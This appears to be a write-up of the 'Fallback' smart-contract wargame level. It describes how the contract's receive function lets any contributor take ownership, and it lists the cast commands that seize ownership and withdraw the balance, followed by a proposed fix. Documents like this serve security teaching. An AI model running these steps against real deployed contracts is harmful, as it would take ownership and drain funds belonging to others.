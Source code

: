 # Fallback

1. Claim ownership of the contract
2. Reduce its balance to 0

## Vulnerability

### Ownership Takeover in `contribute` function

The `contribute` function changes the owner of the contract if the `msg.sender`'s contributions exceed the current owner's contributions. This could allow an attacker to take over the contract by simply contributing more than the current owner.

### Ownership Takeover in receive function

The `receive` function, which is called when the contract is sent Ether without data, changes the owner of the contract to `msg.sender` if `msg.sender` has made any contributions. This means that anyone who has made contributions can take over the contract by sending Ether to it.

### Potential for Denial of Service

The `withdraw` function transfers the entire balance of the contract to the owner. If the owner's address is a contract with a fallback function that reverts, or if the owner's address is unable to receive Ether for any reason, this could prevent the `withdraw` function from being executed successfully, effectively locking the funds in the contract.

### Lack of Input Validation

The `contribute` function requires that the value of Ether sent is less than 0.001 Ether, but there's no similar check in the `receive` function. This could lead to unexpected behavior if someone sends more than 0.001 Ether to the contract without data.

## Attack

1. await contract.address
2. # await contract.owner()
   cast call $CONTRACT_ADDRESS "owner()" --rpc-url $ALCHEMY_RPC_URL
3. cast send $CONTRACT_ADDRESS "contribute()" --value 0.000000000000000001ether --private-key $PRIVATE_KEY --rpc-url $ALCHEMY_RPC_URL
4. cast call $CONTRACT_ADDRESS "getContribution()" --rpc-url $ALCHEMY_RPC_URL --from $ACCOUNT_ADDRESS
5. # {value: msg.value}("")
   cast send $CONTRACT_ADDRESS --value 0.000000000000000001ether --private-key $PRIVATE_KEY --rpc-url $ALCHEMY_RPC_URL
6. cast send $CONTRACT_ADDRESS "withdraw()" --private-key $PRIVATE_KEY --rpc-url $ALCHEMY_RPC_URL

## Fix

```javascript
function withdraw() public onlyOwner {
    require(address(this).balance > 0, "Insufficient funds");
    (bool success, ) = payable(owner).call{value: address(this).balance}("");
    require(success, "Transfer failed");
}

receive() external payable {
    require(msg.value > 0 && msg.value < 0.001 ether && contributions[msg.sender] > 0);
    if (contributions[msg.sender] + msg.value > contributions[owner]) {
        owner = msg.sender;
    }
    contributions[msg.sender] += msg.value;
}
```